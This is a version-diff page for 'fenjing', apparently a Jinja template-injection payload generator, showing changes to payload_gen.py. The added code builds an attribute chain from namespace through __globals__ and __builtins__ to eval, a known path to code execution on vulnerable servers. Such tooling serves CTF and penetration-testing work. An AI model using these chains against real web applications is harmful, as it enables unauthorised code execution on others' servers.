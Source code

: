  * *Files identical despite different names*

### Comparing `fenjing-0.4.5/fenjing/form_cracker.py` & `fenjing-0.4.6/fenjing/form_cracker.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.5/fenjing/full_payload_gen.py` & `fenjing-0.4.6/fenjing/full_payload_gen.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.5/fenjing/payload_gen.py` & `fenjing-0.4.6/fenjing/payload_gen.py`

 * *Files 1% similar despite different names*

```diff
@@ -118,14 +118,16 @@
             return None
 
         gens = req_gens[gen_type].copy()
         gens.sort(key=lambda gen: self.used_count[gen.__name__], reverse=True)
         for gen in gens:
             ret = self.generate_by_list(gen(self.context, *args))
             if ret is None:
+                if hashable(gen_req):
+                    self.cache[gen_req] = ret
                 continue
             result = ret[0]
             self.callback(
                 CALLBACK_GENERATE_PAYLOAD,
                 {"gen_type": gen_type, "args": args, "payload": result},
             )
             # 为了日志的简洁，仅打印一部分日志
@@ -1167,24 +1169,24 @@
             (ATTRIBUTE, "__globals__"),
             (ITEM, "__builtins__"),
             (ITEM, "eval"),
         )
     ]
 
 
-# @req_gen
-# def gen_eval_func_x(context):
-#     return [(
-#         CHAINED_ATTRIBUTE_ITEM,
-#         (LITERAL, "x"),
-#         (ATTRIBUTE, "__init__"),
-#         (ATTRIBUTE, "__globals__"),
-#         (ITEM, "__builtins__"),
-#         (ITEM, "eval")
-#     )]
+@req_gen
+def gen_eval_func_namespace(context):
+    return [(
+        CHAINED_ATTRIBUTE_ITEM,
+        (LITERAL, "namespace"),
+        (ATTRIBUTE, "__init__"),
+        (ATTRIBUTE, "__globals__"),
+        (ITEM, "__builtins__"),
+        (ITEM, "eval")
+    )]
 
 # ---
```